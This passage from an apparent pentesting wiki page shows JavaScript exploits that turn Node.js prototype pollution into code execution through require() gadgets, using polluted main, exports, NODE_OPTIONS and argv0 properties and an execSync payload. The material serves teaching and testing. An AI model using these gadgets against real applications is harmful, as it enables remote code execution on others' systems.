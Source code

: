 ```javascript
// The relative path doesn't even need to exist


// Abusing the vulnerable code
USERINPUT = JSON.parse('{"__proto__": {"main": "/tmp/malicious.js", "NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": "console.log(require(\\\"child_process\\\").execSync(\\\"touch /tmp/pp2rce_absolute\\\").toString())//"}}')

clone(USERINPUT);

var proc = require('bytes');
// This should execute the file /tmp/malicious.js wich create the file /tmp/pp2rec
```
{% endcode %}
{% endtab %}

{% tab title="malicious.js" %}
```javascript
const { fork } = require('child_process');
console.log("Hellooo from malicious");
fork("anything");
```
{% endtab %}
{% endtabs %}

#### Relative require - 1

If a **relative path** is loaded instead of an absolute path, you can make node **load a different path**:

{% tabs %}
{% tab title="exploit" %}
{% code overflow="wrap" %}
```javascript
// Create a file called malicious.js in /tmp
// Contents of malicious.js in the other tab

// Manual Pollution
b = {}
b.__proto__.exports = { ".": "./malicious.js" }
b.__proto__["1"] = "/tmp"

// Trigger gadget
var proc = require('./relative_path.js');
// This should execute the file /tmp/malicious.js
// The relative path doesn't even need to exist


// Abusing the vulnerable code
USERINPUT = JSON.parse('{"__proto__": {"exports": {".": "./malicious.js"}, "1": "/tmp", "NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": "console.log(require(\\\"child_process\\\").execSync(\\\"touch /tmp/pp2rce_exports_1\\\").toString())//"}}')

clone(USERINPUT);

var proc = require('./relative_path.js');
// This should execute the file /tmp/malicious.js wich create the file /tmp/pp2rec
```
{% endcode %}
{% endtab %}
